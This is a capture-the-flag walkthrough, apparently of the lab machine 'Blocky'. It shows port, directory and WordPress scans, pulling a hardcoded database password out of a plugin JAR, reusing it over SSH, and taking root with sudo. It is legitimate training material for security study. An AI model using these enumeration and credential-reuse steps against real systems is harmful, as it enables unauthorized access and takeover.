



Target: 10.10.10.37 

## Enumeration:

nmap
```
$ sudo nmap -sC -sV 10.10.10.37                   

Nmap scan report for 10.10.10.37
Host is up (0.052s latency).
Not shown: 65530 filtered ports
PORT      STATE  SERVICE   VERSION
21/tcp    open   ftp       ProFTPD 1.3.5a
22/tcp    open   ssh       OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 d6:2b:99:b4:d5:e7:53:ce:2b:fc:b5:d7:9d:79:fb:a2 (RSA)
|   256 5d:7f:38:95:70:c9:be:ac:67:a0:1e:86:e7:97:84:03 (ECDSA)
|_  256 09:d5:c2:04:95:1a:90:ef:87:56:25:97:df:83:70:67 (ED25519)
80/tcp    open   http      Apache httpd 2.4.18 ((Ubuntu))
|_http-generator: WordPress 4.8
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: BlockyCraft &#8211; Under Construction!
8192/tcp  closed sophos
25565/tcp open   minecraft Minecraft 1.11.2 (Protocol: 127, Message: A Minecraft Server, Users: 0/20)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

ffuf
```
$ ffuf -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -u http://10.10.10.37/FUZZ

wiki                    [Status: 301, Size: 309, Words: 20, Lines: 10]
wp-content              [Status: 301, Size: 315, Words: 20, Lines: 10]
plugins                 [Status: 301, Size: 312, Words: 20, Lines: 10]
wp-includes             [Status: 301, Size: 316, Words: 20, Lines: 10]
javascript              [Status: 301, Size: 315, Words: 20, Lines: 10]
wp-admin                [Status: 301, Size: 313, Words: 20, Lines: 10]
phpmyadmin              [Status: 301, Size: 315, Words: 20, Lines: 10]
server-status           [Status: 403, Size: 299, Words: 22, Lines: 12]
```

checking 10.10.10.37



wpscan
```
$ wpscan --url http://10.10.10.37 -e 
_______________________________________________________________
         __          _______   _____
         \ \        / /  __ \ / ____|
          \ \  /\  / /| |__) | (___   ___  __ _ _ __ ®
           \ \/  \/ / |  ___/ \___ \ / __|/ _` | '_ \
            \  /\  /  | |     ____) | (__| (_| | | | |
             \/  \/   |_|    |_____/ \___|\__,_|_| |_|

         WordPress Security Scanner by the WPScan Team
                         Version 3.8.17
       Sponsored by Automattic - https://automattic.com/
       @_WPScan_, @ethicalhack3r, @erwan_lr, @firefart
_______________________________________________________________

[+] URL: http://10.10.10.37/ [10.10.10.37]
[+] Started: Wed May 19 07:08:20 2021

Interesting Finding(s):

[+] Headers
 | Interesting Entry: Server: Apache/2.4.18 (Ubuntu)
 | Found By: Headers (Passive Detection)
 | Confidence: 100%

[+] XML-RPC seems to be enabled: http://10.10.10.37/xmlrpc.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%
 | References:
 |  - http://codex.wordpress.org/XML-RPC_Pingback_API
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_ghost_scanner/
 |  - https://www.rapid7.com/db/modules/auxiliary/dos/http/wordpress_xmlrpc_dos/
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_xmlrpc_login/
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_pingback_access/

[+] WordPress readme found: http://10.10.10.37/readme.html
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%

[+] Upload directory has listing enabled: http://10.10.10.37/wp-content/uploads/
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%

[+] The external WP-Cron seems to be enabled: http://10.10.10.37/wp-cron.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 60%
 | References:
 |  - https://www.iplocation.net/defend-wordpress-from-ddos
 |  - https://github.com/wpscanteam/wpscan/issues/1299

[+] WordPress version 4.8 identified (Insecure, released on 2017-06-08).
 | Found By: Rss Generator (Passive Detection)
 |  - http://10.10.10.37/index.php/feed/, <generator>https://wordpress.org/?v=4.8</generator>
 |  - http://10.10.10.37/index.php/comments/feed/, <generator>https://wordpress.org/?v=4.8</generator>

[+] WordPress theme in use: twentyseventeen
 | Location: http://10.10.10.37/wp-content/themes/twentyseventeen/
 | Last Updated: 2021-04-27T00:00:00.000Z
 | Readme: http://10.10.10.37/wp-content/themes/twentyseventeen/README.txt
 | [!] The version is out of date, the latest version is 2.7
 | Style URL: http://10.10.10.37/wp-content/themes/twentyseventeen/style.css?ver=4.8
 | Style Name: Twenty Seventeen
 | Style URI: https://wordpress.org/themes/twentyseventeen/
 | Description: Twenty Seventeen brings your site to life with header video and immersive featured images. With a fo...
 | Author: the WordPress team
 | Author URI: https://wordpress.org/
 |
 | Found By: Css Style In Homepage (Passive Detection)
 |
 | Version: 1.3 (80% confidence)
 | Found By: Style (Passive Detection)
 |  - http://10.10.10.37/wp-content/themes/twentyseventeen/style.css?ver=4.8, Match: 'Version: 1.3'

[+] Enumerating Vulnerable Plugins (via Passive Methods)

[i] No plugins Found.

[+] Enumerating Vulnerable Themes (via Passive and Aggressive Methods)
 Checking Known Locations - Time: 00:00:09 <===================================> (349 / 349) 100.00% Time: 00:00:09
[+] Checking Theme Versions (via Passive and Aggressive Methods)

[i] No themes Found.

[+] Enumerating Timthumbs (via Passive and Aggressive Methods)
 Checking Known Locations - Time: 00:00:57 <=================================> (2575 / 2575) 100.00% Time: 00:00:57

[i] No Timthumbs Found.

[+] Enumerating Config Backups (via Passive and Aggressive Methods)
 Checking Config Backups - Time: 00:00:03 <====================================> (137 / 137) 100.00% Time: 00:00:03

[i] No Config Backups Found.

[+] Enumerating DB Exports (via Passive and Aggressive Methods)
 Checking DB Exports - Time: 00:00:01 <==========================================> (71 / 71) 100.00% Time: 00:00:01

[i] No DB Exports Found.

[+] Enumerating Medias (via Passive and Aggressive Methods) (Permalink setting must be set to "Plain" for those to be detected)
 Brute Forcing Attachment IDs - Time: 00:00:02 <===============================> (100 / 100) 100.00% Time: 00:00:02

[i] No Medias Found.

[+] Enumerating Users (via Passive and Aggressive Methods)
 Brute Forcing Author IDs - Time: 00:00:00 <=====================================> (10 / 10) 100.00% Time: 00:00:00

[i] User(s) Identified:

[+] notch
 | Found By: Author Posts - Author Pattern (Passive Detection)
 | Confirmed By:
 |  Wp Json Api (Aggressive Detection)
 |   - http://10.10.10.37/index.php/wp-json/wp/v2/users/?per_page=100&page=1
 |  Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 |  Login Error Messages (Aggressive Detection)

[+] Notch
 | Found By: Rss Generator (Passive Detection)
 | Confirmed By: Login Error Messages (Aggressive Detection)
```

checking /wiki



checking /plugins



analyzing jar file
```
$ unzip BlockyCore.jar  

Archive:  BlockyCore.jar
  inflating: META-INF/MANIFEST.MF    
  inflating: com/myfirstplugin/BlockyCore.class 

$ cd com/myfirstplugin

$ strings BlockyCore.class   

com/myfirstplugin/BlockyCore
java/lang/Object
sqlHost
Ljava/lang/String;
sqlUser
sqlPass
<init>
Code
        localhost
root
8YsqfCTnvxAUeduzjNSXe22
LineNumberTable
LocalVariableTable
this
Lcom/myfirstplugin/BlockyCore;
onServerStart
onServerStop
onPlayerJoin
TODO get username
!Welcome to the BlockyCraft!!!!!!!
sendMessage
'(Ljava/lang/String;Ljava/lang/String;)V
username
message
SourceFile
BlockyCore.java
```

Loot:

`root:8YsqfCTnvxAUeduzjNSXe22`

### Findings:Looking for attack vectors

Test for password re-use.


## Foothold:

testing for password reuse
```
$ ssh notch@10.10.10.37
```

```
notch@Blocky:~$ id

uid=1000(notch) gid=1000(notch) groups=1000(notch),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),110(lxd),115(lpadmin),116(sambashare)
```

```
notch@Blocky:~$ cat user.txt

<redacted>
```


## Priv Escalations:

```
notch@Blocky:~$ sudo -l

Matching Defaults entries for notch on Blocky:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User notch may run the following commands on Blocky:
    (ALL : ALL) ALL
```

```
notch@Blocky:~$ sudo bash

root@Blocky:~# id

uid=0(root) gid=0(root) groups=0(root)
```

```
root@Blocky:~# cat /root/root.txt 

<redacted>
```
